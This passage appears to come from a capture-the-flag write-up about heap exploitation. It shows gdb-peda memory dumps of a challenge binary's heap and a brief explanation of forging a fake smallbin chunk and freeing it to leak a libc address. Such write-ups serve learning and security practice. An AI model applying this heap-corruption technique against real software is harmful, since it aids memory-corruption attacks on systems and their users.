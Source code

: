 {% highlight text %}
gdb-peda$ x/60gx 0x555555769c20
0x555555769c20: 0x0000555555769d38  0x0000555555769d50  <-- milkTable
0x555555769c30: 0x0000000000000000  0x0000000000000021
0x555555769c40: 0x0000555555769c50  0x0000555555769d00
0x555555769c50: 0x0000000000000000  0x0000000000000021
0x555555769c60: 0x0000555555769d50  0x0000555555769ca0
0x555555769c70: 0x0000000000000000  0x0000000000000021
0x555555769c80: 0x0000555555769c30  0x0000555555769d80
0x555555769c90: 0x0000000000000000  0x0000000000000061
0x555555769ca0: 0x0000000000000000  0x0000555555769d10
0x555555769cb0: 0x0000000000000000  0x0000000000000051
0x555555769cc0: 0x0000555555769cc0  0x0000000000000000
0x555555769cd0: 0x4141414141414141  0x4141414141414141
0x555555769ce0: 0x4141414141414141  0x4242424242424200
0x555555769cf0: 0x0000004242424242  0x0000000000000061
0x555555769d00: 0x0000555555769c90  0x00000000000000d1
0x555555769d10: 0x0000000000424242  0x0000000000424242
0x555555769d20: 0x0000000000424242  0x0000000000424242
0x555555769d30: 0x0000000000424242  0x0000555555769ca0  <-- 0x424242,   milkArr[0]
0x555555769d40: 0x0000555555769ca0  0x0000555555769e10  <-- milkArr[1], milkArr[2]
0x555555769d50: 0x0000000000000000  0x0000000000000021
0x555555769d60: 0x0000000000000000  0x0000555555769c40
0x555555769d70: 0x0000000000000000  0x0000000000000061
0x555555769d80: 0x0000555555769cf0  0x4343434343434343
0x555555769d90: 0x4343434343434343  0x4343434343434343
0x555555769da0: 0x4343434343434343  0x4343434343434343
0x555555769db0: 0x4343434343434343  0x4343434343434343
0x555555769dc0: 0x4343434343434343  0x4343434343434343
0x555555769dd0: 0x0000000000000000  0x0000000000000031
0x555555769de0: 0x0000000000000000  0x0000555555769c40
0x555555769df0: 0x0000555555769c80  0x0000000000000000
{% endhighlight %}

Our fake smallbin chunk here is `milkArr[0]->flag` which points to `0x0000555555769d10` with size `0xd1`. So, we free `milkArr[0]` and then `[v]iew` and we got ourselves a libc info leak :).

{% highlight text %}
gdb-peda$ x/60gx 0x555555769c20
0x555555769c20: 0x0000555555769d38  0x0000555555769d48  <-- arrayEnd decremented
0x555555769c30: 0x0000000000000000  0x0000000000000021
0x555555769c40: 0x0000555555769c50  0x0000555555769d00
0x555555769c50: 0x0000000000000000  0x0000000000000021
0x555555769c60: 0x0000555555769d50  0x0000555555769ca0
0x555555769c70: 0x0000000000000000  0x0000000000000021
0x555555769c80: 0x0000555555769c30  0x0000555555769d80
0x555555769c90: 0x0000000000000000  0x0000000000000061
0x555555769ca0: 0x0000555555769d70  0x0000555555769d10
0x555555769cb0: 0x0000000000000000  0x0000000000000051
0x555555769cc0: 0x0000555555769cc0  0x0000000000000000
0x555555769cd0: 0x4141414141414141  0x4141414141414141
0x555555769ce0: 0x4141414141414141  0x4242424242424200
0x555555769cf0: 0x0000004242424242  0x0000000000000061
0x555555769d00: 0x0000555555769c90  0x00000000000000d1
0x555555769d10: 0x00007ffff7dd1b78  0x00007ffff7dd1b78  <-- fake chunk has been freed
0x555555769d20: 0x0000000000424242  0x0000000000424242
0x555555769d30: 0x0000000000424242  0x0000555555769ca0
0x555555769d40: 0x0000555555769e10  0x0000555555769e10
0x555555769d50: 0x0000000000000000  0x0000000000000021
0x555555769d60: 0x0000000000000000  0x0000555555769c40
0x555555769d70: 0x0000000000000000  0x0000000000000061
0x555555769d80: 0x0000555555769cf0  0x4343434343434343
0x555555769d90: 0x4343434343434343  0x4343434343434343
0x555555769da0: 0x4343434343434343  0x4343434343434343